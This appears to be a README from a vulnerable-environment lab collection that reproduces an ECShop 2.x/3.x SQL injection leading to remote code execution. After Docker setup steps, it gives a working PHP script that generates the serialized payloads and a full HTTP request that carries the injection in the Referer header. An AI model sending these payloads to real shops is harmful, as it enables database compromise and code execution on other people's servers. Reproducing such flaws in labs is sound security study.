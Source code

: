 # ECShop 2.x/3.x SQL Injection / Remote Code Execution Vulnerability

[中文版本(Chinese version)](README.zh-cn.md)

ECShop is a B2C independent shop system for companies and individuals to quickly build personalized online store. This system is a cross-platform open source program based on PHP language and MYSQL database architecture.

In 2017 and previous versions, there was a SQL injection vulnerability that could inject payload and eventually lead to code execution vulnerabilities. The latest version of 3.6.0 has fixed the vulnerability, and vulhub uses its latest version 2.7.3 and 3.6.0 non-latest version versions to reproduce the vulnerability.

Reference link:

- http://ringk3y.com/2018/08/31/ecshop2-x代码执行/

## Environment setup

Run the following commands to start environment

```
docker-compose up -d
```

After the environment start, visit `http://your-ip:8080`, you will see the 2.7.3 installation page. Visit `http://your-ip:8081`, you will see the 3.6.0 installation page.

Install both of them, mysql address is `mysql`, mysql account and password are `root`, the database name is free to fill in, but the database names of 2.7.3 and 3.6.0 can not be the same. 

As the picture shows:

![](0.png)

## Exploit

There is a script that can generate POC for 2.x and 3.x:

```php
<?php
$shell = bin2hex("{\$asd'];phpinfo\t();//}xxx");
$id = "-1' UNION/*";
$arr = [
    "num" => sprintf('*/SELECT 1,0x%s,2,4,5,6,7,8,0x%s,10-- -', bin2hex($id), $shell),
    "id" => $id
];

$s = serialize($arr);

$hash3 = '45ea207d7a2b68c49582d2d22adf953a';
$hash2 = '554fcae493e564ee0dc75bdf2ebf94ca';

echo "POC for ECShop 2.x: \n";
echo "{$hash2}ads|{$s}{$hash2}";
echo "\n\nPOC for ECShop 3.x: \n";
echo "{$hash3}ads|{$s}{$hash3}";
```

Put POC in the HTTP-Referer:

```
GET /user.php?act=login HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Cookie: PHPSESSID=9odrkfn7munb3vfksdhldob2d0; ECS_ID=1255e244738135e418b742b1c9a60f5486aa4559; ECS[visit_times]=1
Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:107:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b706870696e666f0928293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0


```

Result of 2.x:

![](1.png)

Result of 3.x:

![](2.png)
